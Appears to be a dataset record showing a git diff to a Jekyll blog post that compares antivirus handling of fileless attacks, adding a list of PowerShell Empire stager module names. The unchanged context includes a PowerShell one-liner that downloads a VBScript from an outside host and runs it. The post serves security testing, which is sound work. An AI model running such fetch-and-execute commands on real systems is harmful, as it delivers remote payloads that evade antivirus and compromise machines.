

Before and after one commit to spiritedwolf/fareedfauzi.github.io, a Jekyll site: the page built from _posts/2020-04-08-AV-Fileless-Comparison.md, in a window 1280 px wide and 900 px high, scrolled down 1529 px. Shown: the whole window, without its empty margins (0-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update 2020-04-08-AV-Fileless-Comparison.md

````diff
--- a/_posts/2020-04-08-AV-Fileless-Comparison.md
+++ b/_posts/2020-04-08-AV-Fileless-Comparison.md
@@ -59,7 +59,24 @@ Msvenom Vbscript
 powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/ms.vbs', '%temp%\ms.vbs'); Start-Process %windir%\system32\cscript.exe -Filepath '%temp%\ms.vbs'"
 ```
 
-Powershell empire payload
+Powershell empire stager
+```
+windows/launcher_bat
+windows/launcher_lnk
+windows/launcher_sct
+windows/launcher_vbs
+windows/launcher_xml
+windows/backdoorLnkMacro
+windows/macro
+windows/bunny
+windows/macroless_msword
+windows/csharp_exe
+windows/shellcode
+windows/dll
+windows/teensy
+windows/ducky
+windows/hta
+```
 
 Powersploit
 
````
